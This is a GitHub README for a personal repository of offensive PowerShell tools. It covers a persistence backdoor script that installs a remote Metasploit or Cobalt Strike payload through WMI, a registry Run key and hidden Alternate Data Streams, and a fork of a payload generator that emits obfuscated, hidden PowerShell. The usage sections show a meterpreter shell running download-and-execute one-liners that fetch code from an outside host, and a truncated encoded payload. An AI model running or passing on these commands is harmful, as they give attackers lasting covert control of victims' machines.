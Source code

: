# Random-Scripts
My scripts and modifications to other people's scripts to suit my needs

Invoke-Persistence.ps1
This is a modified version of Invoke-ADSBackdoor persistence script by @enigma0x3. I basically just added WMI persistence capability and the modified it to take a payload as URL. I also modified Nikhil Mittal Remove-Persistence module from Nishang to be able to remove the WMI Persistence module. It basically takes in a URL payload generated by metasploit or cobalt strike stored on your webserver. It used two methods to achieve persistence. If its run with admin privileges it leverages WMI persistence, if run without it creates a payload by using two Alternate Data Streams and creates are key in the registry HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run (lame I know) so its executed on startup. The first Alternate Data stream stores the payload and the second Alternate Data Stream stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the payload. 

USAGE
meterpreter > shell
Process 5604 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  
All rights reserved.
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1

Check and Remove Persistence
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
WARNING: WMI permanent event consumer persistence found. Use with -Remove option to clean.

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
Checking for existence of WMI Persistence
Removing WMI Persistence
Removing the ADS Backdoor
No RegKey Persistence Found

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence

C:\users\test>

Why?
For some reason Im unable to use the Persistence module from PowerSploit without breaking the Powershell of the Victim computer. Nishang's Add-Persistence non admin technique doesnt leverage ADS. Enigma0x3's script doesnt have a WMI Persistence function.

mod_unicorn.py
This is a fork from TrustedSec's Dave Kennedy powershell payload generator. Sometimes you just want a properly obfuscated unicorned payload without any spaces or fancy character joining to paste into your script. 

USAGE
root@kali:~/unicorn# python mod_unicorn.py 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
[*] Running code through a lame var replace
powershell -nop -win hidden -noni -enc JAB5AGwAbwAgAD0AIAAnACQARgBkAEsAZAAgAD0AIAAnA..
....snip...
QB7ADsAaQBlAHgAIAAiACYAIABwAG8AdwBlAHIAcwBoAGUAbABsACAAJABoAGIAcwAgACQAZQAiADsAfQA=

